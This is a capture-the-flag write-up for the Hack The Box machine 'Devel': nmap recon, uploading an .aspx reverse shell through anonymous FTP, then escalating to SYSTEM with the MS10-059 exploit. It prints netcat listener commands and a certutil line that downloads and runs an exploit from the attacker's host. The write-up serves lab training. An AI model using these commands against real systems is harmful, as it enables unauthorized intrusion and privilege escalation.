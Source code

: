 # Devel [HTB](https://app.hackthebox.com/machines/Devel). 
![devel-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/devel-01.png)


## Recon

Lets kick off our enumeration stage with `nmap`.

`nmap -sC -sV -p -A 10.129.141.58 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/nmap-res-02.png)


We have the following:

+ An FTP server with anonymous logins on port 21.
+ An IIS web server on port 80.

Lets start by connecting to the FTP and see if we can write files, or find anything interesting. 


### FTP 

Lets login: 

![ftp-login-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-login-03.png)


This is the root of the web server, `iisstart.htm` is the html for the site.
The `welcome.png` is what we see if we open the site: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/site-04.png)


If we can upload files to the FTP, we might be able to access them from the URL.
Lets see if we can write to the FTP: 

![ftp-put-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-put-05.png)


We can. Next logical step is to upload a reverse shell and run it from the URL.

Since this is a Microsoft IIS server we should use an `.aspx` reverse shell. 

`.aspx` are webpages generated by the ASP.NET framework running on Microsoft web servers. 
When we access a `.aspx` file via the URL, it should render out the webpage, 
(A.K.A executing the file...)


I found a great `.aspx` reverse shell [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). Make sure to update your IP and port: 

![aspx-sock-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-sock-05.png)


Lets upload it via the FTP: 

![aspx-upload-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-upload-06.png)


Setup the listener with `nc -lnvp 9001`


And navigate to the file via the browser at `http://10.129.141.111/rshell.aspx` : 

![browse-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/browse-07.png)


It stalls, great sign, lets check the listener: 

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/shell-08.png)


We get a shell! Lets move to privilege escalation. 


## Privilege Escalation

In order to run winpeas we need a .NET version of 4.5.2 or higher, which we dont have:
`reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"`

![net-ver-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/net-ver-09.png)


So we cant run winpeas, how about PoweUp?, for that we need a powershell session. 
Trying to load a powershell session stalls indefinitely:

![ps-stall-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ps-stall-10.png)


So we cant run winpeas and we cant run powershell. lets try running [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). 
(make sure you install xlrd with `pip2 install xlrd==1.2.0`)

First we need to save the output of `systeminfo` from the target to a file on our attack machine. 
then we can run the exploit-suggester as such: 

`./windows-exploit-suggester.py --database 2023-07-18-mssb.xls --systeminfo systeminfo.txt`


![sugg-res-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/sugg-res-11.png)


Iv'e highlighted `ms10-059`, this vulnerability lays in the `Tracing for Services` feature on
Windows systems. This happens because the feature incorrectly places ACL's on registry keys,
which allows attackers to execute code with elevated privileges. As well unsafe memory allocation when processing craftred long strings.    

You can find the exploit [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059) save the `MS10-059.exe` file to your attack machine.


Lets transfer the exploit to our target machine. 
open an http server locally with `python3 -m http.server 8888`.

`cd` into a writable directory `cd c:\\windows\\temp` and download the exploit from the target
with `certutil -urlcache -f http://10.10.14.21:8888/MS10-059.exe ms.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/transfer-12.png)


Start up the listener on the attack machine with `nc -lnvp 443`.

And run the exploit with `ms.exe 10.10.14.21 443`

![run-exploit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/run-exploit-13.png)


Lets check the listener: 

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/root-14png.png)


We got system! 
